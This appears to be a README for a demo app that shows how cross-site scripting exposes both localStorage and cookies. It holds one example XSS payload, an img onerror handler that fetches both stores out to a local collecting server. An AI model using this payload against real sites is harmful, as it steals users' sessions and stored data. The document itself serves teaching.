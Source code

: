 ## How to use

### Server

In the project directory server, you can run:

#### `npm start`

The server listens on port 3001


### Client

In the project directory client, you can run:

#### `npm start`

Open [http://localhost:3000](http://localhost:3000) to view it in the browser.

```
Example attack: http://localhost:3000/?text=<img src onerror="fetch(`http://localhost:3001?localStorage=${JSON.stringify(localStorage)}&cookie=${JSON.stringify(document.cookie)}`).then(data => data.json()).then(data => console.log('server response', data))" />
```

Check console for the response from server

## Conclusion

Both localstorage and cookies are vulnerable in about the same severity. Be careful what data you store in them :)